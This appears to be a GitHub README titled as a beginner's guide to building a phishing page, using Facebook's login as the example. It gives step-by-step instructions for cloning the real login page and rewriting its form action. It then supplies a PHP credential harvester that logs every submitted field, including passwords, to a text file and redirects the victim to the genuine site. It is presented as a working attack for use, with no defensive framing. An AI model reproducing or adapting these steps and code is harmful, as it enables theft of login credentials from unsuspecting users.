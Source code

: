 # Creating-a-phishing-page---very simple-steps-for-dummies-PhP-

Phishing is the most common attack which is used to hack any login details.
For which we need to have phishing pages to upload then in hosting sites.
Here i will show you an example of creating Phishing page (fake loGin page) of Facebook.The method is same for any other website
What we are going to do now.Normally in phishing we will just create a login page which looks same like the real website. For this we need not to code the whole script of the desired website. 

StepS to Reproduce:

1. First go to the desired website Login page for which you want to create Phishing page
lets take www.facebook.com

2. Right click on the website and choose “page source” . Now you can see the whole script of the website.

3. Copy the whole script and paste it into a text file. Press Control+F and type ” action “.
Here in the case of “www.facebook.com “. The script line that has “action” looks something like this.
action=”https://www.facebook.com/login.php?login_attempt=1“. Now replace everything inside the quotes with ” login.php”. 

So it will look like action=”login.php“ 

4. Save the file as index.html.

5. Now open a new text file and paste the following code

header (‘Location: http://facebook.com ‘);

$handle = fopen(“logs_86354.txt”, “a”);

foreach($_POST as $variable => $value) {

fwrite($handle, $variable);

fwrite($handle, “=”);

fwrite($handle, $value);

fwrite($handle, “\r\n”);

}

fwrite($handle, “===============\r\n”);

fclose($handle);

exit;

?>

Save it as “login.php”
